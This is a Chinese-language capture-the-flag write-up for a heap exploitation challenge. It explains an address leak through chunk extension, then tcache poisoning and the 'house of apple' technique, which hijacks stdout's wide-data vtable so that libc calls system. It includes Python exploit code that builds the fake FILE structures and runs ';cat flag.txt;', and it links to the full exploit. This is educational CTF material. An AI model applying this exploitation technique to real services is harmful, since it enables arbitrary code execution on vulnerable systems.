 首先是泄露地址，这个题最重要的是要让两个指针指向同一个地址。考虑到chunk extend特性，我们完全可以先分配一个初始堆块，再分配一系列堆块，然后释放初始堆块进入tcache，再申请回来，利用gets覆盖下一个堆块覆盖之前分配的全部堆块，然后把下一个堆块释放掉，我们就获得了一个巨大的unsorted bin堆块，覆盖了之前所有已经分配过但还没释放的堆块（我把这些堆块称为eye chunks，因为他们的功能就是用来插个眼输出）。然后我们再分配小一些的堆块时就会从unsorted bin里切，我们可以控制让某个堆块刚好等于eye chunks的地址，然后再释放掉，让他们进入对应的tcache或者unsorted bin，就可以拿到堆地址和LIBC地址。

接下来，可以考虑打tcache poisoning任意分配堆块，这个在有gets的情况下非常容易。但是这个题GOT表只读，分配新的堆块还会截断，不能读出内容，我们要打哪里呢？可以考虑打IO函数（house of apple），或者打ld的`rtld_globals`的`_fini_array`（house of banana）。这个题就非常适合打[house of apple](https://bbs.kanxue.com/thread-273832.htm)，具体来说是打`_IO_wfile_overflow`。具体攻击原理已经被师傅们挖掘出来了，我这里只是拾人牙慧套用一下罢了。

house of apple，原本是large bin attack的应用，large bin attack可以在指定位置写入一个堆地址。总体的方法论是泄露地址后，在堆上布置假的结构，然后只改一个地址写入特定hook函数，突出一个一击脱离。这里虽然我们用的tcache poisoning，但因为分配后只有一次盲写的机会，其实效果是类似的。

故事要从`stdout=_IO_2_1_stdout_`（或stdin, stderr）的vtable说起。它的默认值是`_IO_file_jumps`。老版本中，我们可以直接修改整个vtable，但现在对vtable的地址范围加了检查（在只读区域）。但我们可以把`vtable`改为`_IO_wfile_jumps`，而对应`struct _IO_wide_data`的`_wide_vtable`中成员调用时，没有地址检查，因此我们可以堆上构造一个假的`_wide_data`和假的`_wide_vtable`，再复写`_IO_2_1_stdout_`的flag让它产生类型混淆。总结下来我们准备三样东西（可以把这三样东西放在堆的连续地址上，当然分开也不是不行）：

- 假的`_wide_vtable`
- 假的`struct _IO_wide_data`，
- 类型混淆的`fake file`，

似乎largebin attack版本要把fake file写到堆上，然后把bss段的stdout地址覆盖为堆上fake file地址。不过我这里是直接改的LIBC堆空间`_IO_2_1_stdout_`的原始数据了，反正溢出范围够大。

```py
# fake file is 0xe0 long
fake_file = bytearray(0xe0)

cmd = b';cat flag.txt;'
# fake_file[0:8] = b'  sh;'.ljust(8, b'\x00')
# this flag is rdi, but it also should bypass certain check
fake_file[0:8] = p64(2**64 + ~(2|8|0x800))
fake_file[8:8 + len(cmd)] = cmd

fake_file[0xa0:0xa8] = p64(fake_widedata_addr)
fake_file[0xd8:0xe0] = p64(LIBC + libc.symbols['_IO_wfile_jumps'])
fake_file = bytes(fake_file)

# fake vtable, 
# first 0x100 is struct _IO_wide_data, 
# second 0x100 is struct _IO_jump_t *_wide_vtable;
fake_vtable = bytearray(0x200)
fake_vtable[0x18:0x20] = p64(0)
fake_vtable[0x30:0x38] = p64(0)
fake_vtable[0xe0:0xe8] = p64(fake_widedata_addr + 0x100)

fake_vtable[0x168:0x170] = p64(LIBC + libc.functions['system'].address)
fake_vtable = bytes(fake_vtable)

fake_iofile_idx = alloc(0x208, fake_vtable)
```
这里特别提一下，`fake_file`的flag需要满足类型混淆的要求，但`fake_file`本身也会作为vtable hook函数的rdi，所以如果要调用system，这里得用类似`;/bin/sh;`这样的方式处理。

flag是`actf{wh3re_did_my_pr3c1ous_fr33_hook_go??}`，现在没有free hook也能打堆题了，哈哈。

留一下code，以供后面参考：[exp](pwn-heapify/exp.py)